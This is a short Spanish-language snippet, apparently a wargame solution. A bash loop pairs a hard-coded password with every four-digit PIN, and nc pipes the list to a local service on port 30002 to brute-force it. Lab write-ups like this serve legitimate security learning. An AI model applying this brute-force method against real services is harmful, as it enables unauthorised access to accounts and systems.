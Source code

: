 #!/bin/bash

for i in {0000..9999}; do
         echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i" 
 done


Para mandar este diccionario de contraseñas por un puerto especifico seria con este comando: 
  
  cat dictionary.txt | nc localhost 30002 | grep -v -E "Wrong|Please" (grep -v -E para quitar errores en caso de ser necesario)

